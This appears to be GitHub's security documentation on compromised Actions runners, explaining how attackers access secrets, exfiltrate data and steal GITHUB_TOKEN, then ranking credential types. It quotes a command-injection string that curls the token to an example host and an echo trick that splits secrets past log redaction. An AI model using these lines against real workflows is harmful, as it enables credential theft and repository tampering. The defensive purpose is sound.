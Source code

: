 Compromised runners
Understand the security risks associated with compromised GitHub Actions runners.

In this article
Potential impact of a compromised runner
These sections consider some of the steps an attacker can take if they're able to run malicious commands on a GitHub Actions runner.

Note

GitHub-hosted runners do not scan for malicious code downloaded by a user during their job, such as a compromised third party library.

Accessing secrets
Workflows triggered from a forked repository using the pull_request event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as issue_comment, issues, push and pull_request from a branch within the repository, where the attacker could attempt to steal repository secrets or use the write permission of the job's GITHUB_TOKEN.

If the secret or token is set to an environment variable, it can be directly accessed through the environment using printenv.

If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.

For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

uses: fakeaction/publish@v3
with:
    key: ${{ secrets.PUBLISH_KEY }}
Although GitHub Actions scrubs secrets from memory that are not referenced in the workflow (or an included action), the GITHUB_TOKEN and any referenced secrets can be harvested by a determined attacker.

Exfiltrating data from a runner
An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, GitHub Actions automatically redact secrets printed to the log, but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

Stealing the job's GITHUB_TOKEN
It is possible for an attacker to steal a job's GITHUB_TOKEN. The GitHub Actions runner automatically receives a generated GITHUB_TOKEN with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#.

Modifying the contents of a repository
The attacker server can use the GitHub API to modify repository content, including releases, if the assigned permissions of GITHUB_TOKEN are not restricted.

Cross-repository access
GitHub Actions is intentionally scoped for a single repository at a time. The GITHUB_TOKEN grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file, elevating the permissions of the GITHUB_TOKEN if necessary. Users have specific permissions for each repository, so allowing the GITHUB_TOKEN for one repository to grant access to another would impact the GitHub permission model if not implemented carefully. Similarly, caution must be taken when adding GitHub authentication tokens to a workflow, because this can also affect the GitHub permission model by inadvertently granting broad access to collaborators.

If your organization is owned by an enterprise account, then you can share and reuse GitHub Actions by storing them in internal repositories. For more information, see Sharing actions and workflows with your enterprise.

You can perform other privileged, cross-repository interactions by referencing a GitHub authentication token or SSH key as a secret within the workflow. Because many authentication token types do not allow for granular access to specific resources, there is significant risk in using the wrong token type, as it can grant much broader access than intended.

This list describes the recommended approaches for accessing repository data within a workflow, in descending order of preference:

The GITHUB_TOKEN
This token is intentionally scoped to the single repository that invoked the workflow, and can have the same level of access as a write-access user on the repository. The token is created before each job begins and expires when the job is finished. For more information, see Use GITHUB_TOKEN for authentication in workflows.
The GITHUB_TOKEN should be used whenever possible.
Repository deploy key
Deploy keys are one of the only credential types that grant read or write access to a single repository, and can be used to interact with another repository within a workflow. For more information, see Managing deploy keys.
Note that deploy keys can only clone and push to the repository using Git, and cannot be used to interact with the REST or GraphQL API, so they may not be appropriate for your requirements.
GitHub App tokens
GitHub Apps can be installed on select repositories, and even have granular permissions on the resources within them. You could create a GitHub App internal to your organization, install it on the repositories you need access to within your workflow, and authenticate as the installation within your workflow to access those repositories. For more information, see Making authenticated API requests with a GitHub App in a GitHub Actions workflow.
personal access tokens
You should never use a personal access token (classic). These tokens grant access to all repositories within the organizations that you have access to, as well as all personal repositories in your personal account. This indirectly grants broad access to all write-access users of the repository the workflow is in.
If you do use a personal access token, you should never use a personal access token from your own account. If you later leave an organization, workflows using this token will immediately break, and debugging this issue can be challenging. Instead, you should use a fine-grained personal access token for a new account that belongs to your organization and that is only granted access to the specific repositories that are needed for the workflow. Note that this approach is not scalable and should be avoided in favor of alternatives, such as deploy keys.
SSH keys on a personal account
Workflows should never use the SSH keys on a personal account. Similar to personal access tokens (classic), they grant read/write permissions to all of your personal repositories as well as all the repositories you have access to through organization membership. This indirectly grants broad access to all write-access users of the repository the workflow is in. If you're intending to use an SSH key because you only need to perform repository clones or pushes, and do not need to interact with public APIs, then you should use individual deploy keys instead.
Next steps
For security best practices with GitHub Actions, see Secure use reference.